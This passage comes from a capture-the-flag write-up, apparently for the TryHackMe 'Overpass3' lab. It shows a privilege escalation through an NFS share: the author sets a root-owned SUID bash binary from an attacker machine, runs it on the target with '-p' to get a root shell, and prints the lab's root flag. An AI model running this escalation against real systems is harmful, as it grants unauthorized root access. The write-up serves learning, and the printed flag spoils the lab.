 Then from my Kali box, I abused the NFS permissions to change the owner and to set the SUID bit:

~~~
┌──(kali㉿kali)-[/data/Overpass3/files/nfs]
└─$ sudo chown root:root bash
                                                                                                                     
┌──(kali㉿kali)-[/data/Overpass3/files/nfs]
└─$ sudo chmod +s bash
~~~

Now back on the target, we have a `bash` binary owned by `root` with the SUID bit set:

~~~
[james@localhost ~]$ ll
total 1196
-rwsr-sr-x  1 root  root  1219248 May  4 17:49 bash
-rw-------. 1 james james      38 Nov 17 21:15 user.flag
~~~

## Root flag

We can now be root and read the flag

~~~
[james@localhost ~]$ ./bash -p
bash-4.4# cat /root/root.flag 
thm{a4f6adb70371a4bceb32988417456c44}
~~~

Root flag: `thm{a4f6adb70371a4bceb32988417456c44}`
